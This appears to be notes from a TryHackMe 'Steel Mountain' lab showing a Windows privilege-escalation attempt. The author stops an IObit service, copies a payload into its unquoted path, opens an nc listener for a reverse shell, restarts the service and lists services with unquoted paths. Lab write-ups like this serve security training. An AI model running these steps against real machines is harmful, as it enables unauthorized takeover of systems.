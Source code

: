 C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

#5 I coped it into the path of the systemcareservice:
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe"
copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe"
        1 file(s) copied.

#6 set up a nc listener before reastarting --> need to catch the shell
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ nc -nvlp 4443
listening on [any] 4443 ...

#7 - restart the service:
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1876
        FLAGS              :

#it did not work for me - I did not get a shell..

#I changed directories and ran the following:
C:\Users\bill\Documents>wmic service get name,displayname,pathname,startmode  |findstr /i "auto" | findstr /i /v "C:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode  |findstr /i "auto" | findstr /i /v "C:\windows\\" |findstr /i /v """
Advanced SystemCare Service 9                           AdvancedSystemCareService9  C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe                    Auto
AWS Lite Guest Agent                                    AWSLiteAgent                C:\Program Files\Amazon\XenTools\LiteAgent.exe                                     Auto
IObit Uninstaller Service                               IObitUnSvr                  C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe                       Auto
LiveUpdate                                              LiveUpdateSvc               C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe                             Auto
